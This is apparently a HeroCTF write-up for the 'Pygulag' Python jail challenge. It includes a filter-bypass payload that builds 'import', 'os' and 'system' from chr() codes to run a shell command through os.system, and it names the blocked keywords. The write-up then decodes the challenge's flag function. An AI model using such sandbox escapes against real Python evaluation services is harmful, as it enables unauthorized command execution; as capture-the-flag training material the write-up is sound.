


# Pygulag
Category: Misc

## Description
You've escaped from jail. But you're not the smartest guy out there, and got caught again. This time, you were sent to the gulag. Good luck escaping that one...

If you're stuck, look in the past, it might hold some ideas.

NB: The pyjail is running on python3

\> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**

Author : **Log_s**

## Write-up
- To determine the available built-in functions similar to the [Pyjail](../misc-pyjail/README.md) challenge, we attempted to execute `print(__builtins__)`. However, this time we received the response `You're trying something fancy aren't u ?`. This indicates that the challenge creator implemented some form of input validation.
- To verify that the `print` function still works, we executed `print(1)` and confirmed that it produced the expected output.
- To execute the desired payload `print.__self__.__import__("os").system("cat pyjail.py")`, we needed to identify the keywords that might trigger the validation.
- Through testing, we discovered that when our input included the words `import`, `os`, or `system`, they will be flagged as malicious. However, words such as dot (`.`), `__self__`, `cat`, and `pyjail.py` were not recognized as forbidden.



- We devised an alternative payload by converting characters from decimal to construct our forbidden words. We found that the plus symbol (`+`), numbers, `getattr`, and `chr` were not considered malicious.
- Utilizing this knowledge, we crafted a similar payload using different syntax:
```
print.__self__.getattr(print.__self__.getattr(print.__self__, print.__self__.chr(95) + print.__self__.chr(95) + print.__self__.chr(105) + print.__self__.chr(109) + print.__self__.chr(112) + print.__self__.chr(111) + print.__self__.chr(114) + print.__self__.chr(116) + print.__self__.chr(95) + print.__self__.chr(95))(print.__self__.chr(111) + print.__self__.chr(115)), print.__self__.chr(115) + print.__self__.chr(121) + print.__self__.chr(115) + print.__self__.chr(116) + print.__self__.chr(101) + print.__self__.chr(109))("cat pyjail.py")
```
- Running this payload successfully revealed the contents of the pyjail.py file, as shown in the screenshot provided (can also be viewed [here](solution/pyjail.py)).


  
- Upon analyzing the code, we found a function of interest named `ImTheFlagFunction9876543210(key)`.
```
def ImTheFlagFunction9876543210(key):
    p1 = "Hero{4"
    p2 = "33e8e40da5bec09"[::-1]
    p3 = ''
    x = 12
    for c in b'?;9ms!w$ -.. ++':
        p3 += chr(c^x)
        x += 1
    key = key[1]
    p4 = chr((ord(key)//ord(key))*48)
    p5 = "}"
    flag = p1 + p2 + p3 + p4 + p5
    return "Hero{F4ke_Fl4g}"
```
- Upon closer examination, we observed that the function's result is highly deterministic. It takes the second index of the `key` parameter, divides it by itself (which always evaluates to `1`), multiplies the result by `48`, and converts it to a character.
- We rewrote the function as follows:
```
def ImTheFlagFunction9876543210():
    p1 = "Hero{4"
    p2 = "33e8e40da5bec09"[::-1]
    p3 = ''
    x = 12
    for c in b'?;9ms!w$ -.. ++':
        p3 += chr(c^x)
        x += 1
    p4 = chr(48)
    p5 = "}"
    flag = p1 + p2 + p3 + p4 + p5
    return flag
```
- Running this modified code in a Python interpreter displayed the flag: `Hero{490ceb5ad04e8e33367bc0e748898210}`.

Flag: `Hero{490ceb5ad04e8e33367bc0e748898210}`
